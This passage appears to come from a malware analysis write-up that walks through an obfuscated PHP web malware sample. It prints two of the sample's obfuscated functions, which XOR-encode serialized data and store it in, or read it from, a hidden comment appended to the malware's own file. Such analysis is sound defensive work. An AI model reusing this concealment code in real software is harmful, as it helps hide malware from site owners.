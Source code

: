 I gave the functions the names xortype1 and xortype2 and repopulated them through out the rest of the code. The 2 functions analysed were the opposite of each other. At this point, I didn't know which was which and they would both work as either.

The next pair of functions under examination where:

```PHP

    function ymjxpja()
    {
        $gnlmabhgcmqoues = @file_get_contents(dbkboso());

        $ugpdjjik = strpos($gnlmabhgcmqoues, md5(dbkboso()));
        if ($ugpdjjik !== FALSE)
        {
            $wovbwub = substr($gnlmabhgcmqoues, $ugpdjjik + 32);
            $hzrhdgnprrmsrj = @unserialize(umzklia(rawurldecode($wovbwub), md5(dbkboso())));
        }
        else
        {
            $hzrhdgnprrmsrj = Array();
        }

        return $hzrhdgnprrmsrj;
    }

    function ifqhsss($hzrhdgnprrmsrj)
    {
        $qhuznb = rawurlencode(meyfzju(@serialize($hzrhdgnprrmsrj), md5(dbkboso())));
        $gnlmabhgcmqoues = @file_get_contents(dbkboso());

        $ugpdjjik = strpos($gnlmabhgcmqoues, md5(dbkboso()));
        if ($ugpdjjik !== FALSE)
        {
            $yblkqeg = substr($gnlmabhgcmqoues, $ugpdjjik + 32);
            $gnlmabhgcmqoues = str_replace($yblkqeg, $qhuznb, $gnlmabhgcmqoues);

        }
        else
        {
            $gnlmabhgcmqoues = $gnlmabhgcmqoues . "\n\n//" . md5(dbkboso()) . $qhuznb;
        }

        @file_put_contents(dbkboso(), $gnlmabhgcmqoues);
    }

```

The main reason for examination together, is they appeared to be similar jobs. Once they were decoded, it turned out that assumption was correct. As we have decoded some parts already, we can see that the first couple of lines of the first function are storing the contents of the malware in a variable. It then checks to see if it can find the md5 of the filename within the file, and saves the offset. If the offset is found, the contents read in to a new variable. The read starts 32 characters after the offset, due to the size of the md5. The contents are then decoded using the xortype1 function, and the md5 as the second argument. If the offset is not found, a blank array is initialized.
